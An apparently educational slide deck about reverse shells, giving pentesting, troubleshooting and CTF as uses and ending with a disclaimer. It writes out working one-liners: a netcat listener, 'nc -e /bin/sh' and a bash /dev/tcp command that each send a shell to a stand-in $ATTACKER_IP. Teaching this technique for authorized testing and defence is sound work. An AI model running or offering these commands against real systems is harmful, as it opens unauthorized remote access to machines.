

<style>
  code {
    @apply text-xs;
  }
</style>

# Reverse Shells for fun and profit
@nodeselector

---

# Why?

Problem: You have limited access to a machine and you want to get a shell. Solution: Reverse shell.

Scenarios:
- **Penetration Testing**: Demonstrating potential vulnerabilities in a system with the owner's permission.
- **Educational Purposes**: Know your enemy. Learn how attackers might gain access to your systems.
- **Troubleshooting Remote Systems**: If you have a remote machine that's behind a firewall or NAT, and need interactive access in order to debug it, this can be a useful technique.
- **Capture The Flag (CTF) Challenges**: Used to solve tasks in controlled environments designed for learning and competition.

Disclaimer: Don't do anything illegal or unethical. Please.

---

# What is it

A reverse shell is a type of shell in which the target machine communicates back to the attacking machine.



For this to work, we must be able to establish a connection from the target machine to the attacker machine. But since we're talking about *egress* traffic, it's usually not blocked.

---

# Let's send it

Once we have a means to execute code on the target machine, we can send a reverse shell payload.

On the attacker machine:

```sh
nc -lvp 4444
```

On the target machine:

```sh
nc -e /bin/sh $ATTACKER_IP 4444
```

Or because we don't want to rely on the target machine having a version of netcat with exec support:

```sh
bash -i >& /dev/tcp/$ATTACKER_IP/4444 0>&1
```

Now we're living off the land and have zero dependencies! (outside of network egress)

---

# Concerns

- Traffic is not encrypted, though there are ways you could encrypt it. (e.g. netcat has some ssl support, you could use [stunnel](https://www.stunnel.org/), or ssh tunneling)